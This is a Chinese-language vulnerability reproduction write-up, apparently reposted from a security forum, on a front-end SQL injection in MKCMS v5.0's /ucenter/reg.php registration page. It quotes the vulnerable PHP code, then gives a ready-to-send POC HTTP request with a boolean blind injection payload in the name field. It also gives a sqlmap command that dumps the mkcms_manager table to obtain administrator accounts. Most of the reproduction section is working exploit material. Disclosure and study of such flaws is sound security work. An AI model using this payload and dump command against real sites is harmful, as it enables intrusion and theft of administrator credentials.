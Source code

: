 # MKCMS v5.0 /ucenter/reg.php前台注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3022](https://www.zhihuifly.com/t/topic/3022)

# MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v5.0

## 三、复现过程

漏洞出现在`/ucenter/reg.php`第7-19行:

```
if(isset($_POST['submit'])){
$username = stripslashes(trim($_POST['name']));
// 检测用户名是否存在
$query = mysql_query("select u_id from mkcms_user where u_name='$username'");
if(mysql_fetch_array($query)){
echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
exit;
}
$result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
if(mysql_fetch_array($result)){
echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
exit;
} 
```

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()` 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

```
POST /ucenter/reg.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/ucenter/reg.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
Upgrade-Insecure-Requests: 1 `name=test’ AND 1=1 AND ‘inject’='inject&email=sss%[40qq.com](http://40qq.com)&password=ssssss&submit=` 
```

![image](img/504da08e2c6819f50b5f4f55784279b6.png)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

```
sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump 
```

## 参考链接

> https://xz.aliyun.com/t/4189#toc-1
